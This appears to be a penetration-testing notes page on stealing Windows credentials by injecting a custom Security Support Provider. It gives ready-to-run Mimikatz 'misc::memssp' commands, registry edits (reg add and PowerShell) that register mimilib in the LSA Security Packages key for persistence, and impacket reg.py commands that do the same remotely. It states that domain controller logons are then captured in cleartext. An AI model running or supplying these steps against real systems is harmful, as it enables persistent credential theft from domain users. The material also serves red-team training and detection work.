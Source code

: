 # Custom SSP

## Explanation

A Security Service Provider (SSP) is implemented via the Security Support Provider Interface (SSPI) which is part of the Windows Client Authentication Architecture.

The SSPI will dictate what protocols systems should use to authenticate between each other when communicating. The default protocol is Kerberos, however when not possible the following may also be utilized:

| SSP Protocol      | File Location                          |
|-------------------|----------------------------------------|
| Negotiate SSP     | `C:\Windows\System32\lsasrv.dll`       |
| Kerberos SSP      | `C:\Windows\System32\kerberos.dll`     |
| NTLM SSP          | `C:\Windows\System32\msv1_0.dll`       |
| Schannel SSP      | `C:\Windows\System32\Schannel.dll`     |
| Digest SSP        | `C:\Windows\System32\Wdigest.dll`      |
| CredSSP           | `C:\Windows\System32\credssp.dll`      |



### 1) Mimikatz (IN MEMORY. DOES NOT PERSIST AFTER REBOOT!)

    mimikatz "privilege::debug" "misc::memssp" "exit"

    C:\Windows\System32\kiwissp.log

### 2) Mimilib (PERSISTENT)

It is possible to inject a custom SSP into a target Domain Controller which can be used to intercept credentials and store them for later retrieval in plain text. Mimikatz comes with the ability to perform this interception with the mimilib.dll provided.

Copying the mimilib.dll file from Mimikatz into the SYSTEM32 folder and then adding the mimilib.dll file as a security package with the below command.

##### Create Key

    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f

##### Confirm changes

    reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

After completing and confirming changes, when a user next authenticates against the Domain Controller the credentials will be captured in cleartext in a file called kiwissp.txt inside SYSTEM32.

As these changes are made to the registry and a permanent file is dropping into SYSTEM32 this attack vector will persist after reboots.

BONUS

    $packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
    $packages += "mimilib"
    Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages

## Linux

##### Retrieve the actual values of Security Package

    reg.py -dc-ip <DC_IP> 'domain.local'/'Administrator':'password'@dc.domain.local query -keyName 'HKLM\\System\\CurrentControlSet\\Control\\Lsa\\' -v 'Security Packages' -s

##### Append mimilib to the previous list

    reg.py -dc-ip <DC_IP> 'domain.local'/'Administrator':'password'@dc.domain.local add -keyName 'HKLM\\System\\CurrentControlSet\\Control\\Lsa\\' -v 'Security Packages' -vd "<list> mimilib" -vt REG_MULTI_SZ
